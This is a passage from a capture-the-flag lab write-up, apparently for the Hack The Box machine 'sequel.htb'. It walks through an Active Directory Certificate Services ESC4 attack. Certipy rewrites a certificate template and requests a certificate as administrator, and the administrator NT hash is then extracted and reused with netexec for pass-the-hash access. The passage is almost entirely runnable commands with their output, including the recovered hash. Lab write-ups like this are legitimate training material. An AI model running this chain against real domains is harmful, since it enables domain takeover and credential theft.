 Helpful guidance on this attack was found at this blog: https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/ However I had immense trouble attempting to update the template using `certipy`. Eventually I found success running the same command on an older version (from 5.0.1 to 4.8.2):

```
┌──(kali㉿kali)-[~]
└─$ certipy-ad template -template DunderMifflinAuthentication -u 'ca_svc@sequel.htb' -p '/gif!' -target-ip 10.10.11.51 -dc-ip 10.10.11.51 -target sequel.htb 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

The rest of the attack chain worked without issues on the latest version of certipy:

```
┌──(kali㉿kali)-[~]
└─$ certipy req -ca sequel-DC01-CA -dc-ip 10.10.11.51 -u ca_svc -p 'Hacked123!' -template DunderMifflinAuthentication -target sequel.htb -upn administrator@sequel.htb 
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 39
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Lastly retrieving administrator hash using the admin certificate:

```
┌──(kali㉿kali)-[~]
└─$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

Checking with netexec, we confirm successful athuentication as administrator:

```
┌──(kali㉿kali)-[~]
└─$ netexec smb sequel.htb -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\administrator:7a8d4e04986afa8ed4060f75e5a0b3ff (Pwn3d!)
```
